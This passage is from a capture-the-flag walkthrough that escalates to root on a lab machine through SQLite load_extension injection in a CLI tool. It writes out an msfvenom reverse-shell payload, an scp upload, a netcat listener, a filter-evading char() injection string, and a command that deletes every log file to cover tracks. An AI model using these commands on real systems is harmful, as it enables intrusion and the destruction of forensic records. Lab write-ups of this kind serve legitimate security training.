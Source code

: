 To do this, we first need to create a .so file and then place it in the directory where the doodleGrive-cli is located. This is because the program will attempt to load the extension file from the directory where the **doodleGrive-cli** file is present.

Let's begin the process by creating a .so file using **msfvenom**: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=443 -f elf-so -o a.so`. We'll name the file **a.so** to keep it short due to character limitations.
- **-p** is for payload
- **-f** for format 
- **-o** for output file name
Our file is successfully created, and now we need to upload it to the victim machine. We have two options: using a **Python server** or **scp**. Earlier, we used the Python3 server method. Now, let's use the scp method so we can learn about both techniques. For this, we'll use the command `scp a.so tom@drive.htb:/home/tom`.
- **a.so** is our file name
- tom@drive.htb is target user ssh 
- **:/home/tom** is a path in which we want to upload our file
		
![Screenshot from 2023-10-20 16-37-44](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/d23a496a-ccd0-4897-a3b6-24e88be00f43)

Now, we can see that our file is present in the doodleGrive-cli directory. We need to start a listener on port **9001**, which we specified in our reverse shell, so that we can receive our shell back when the doodleGrive-cli runs and calls our a.so file. To start the listener, we will use **netcat**: `nc -lvnp 9001`.
- **-l** for listen
- **-v** for verbosity
- **-n** for numeric-only IP addresses
- **-p** for port number

![Screenshot from 2023-10-20 16-43-49](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/4f7a9994-5dbc-4a36-8f7b-f0cc7efde7a9)

Let's try to exploit it. We will use `"+load_extension(./a)--`. We use only **a** because **sqlite3** embeds .so from itself with every extension file. After trying, we come to know that there is a filter which replaces **/** with **none**.

![Screenshot from 2023-10-20 16-59-52](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/1a321775-5fe4-4110-a62a-89da6cb233de)

Let's try to obfuscate it using the **char** function. The CHAR function converts decimal values to their corresponding ASCII characters. So, we will write the char value of **.**, **/**, **a**, which are **46** for **.**, **47** for **/**, and **97** for **a**. Now let's create the payload again, which will become `"+load_extension(char(46,47,97))--`, and try to see what happens next. As soon as we run the query, we get a shell as **root** on our listener.

![Screenshot from 2023-10-20 17-08-47](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/0d4851ea-ba8a-4b20-a7ba-48346cdce0a6)

Now Let's Delete all the logs on victim machine to remove footprints using `find / -name "*.log" -delete` 
- **/** telling find to start from root directory and search in whole filesystem
- **-name** to find file with the specific pattern 
- **-delete** telling the find to delete all the files which match the specific pattern

# Flags
User : bf7999654dcec....d63ec23658ff25
Root : 8a9e620672......16e5cb71dcf5bae

# Happy Hacking :)

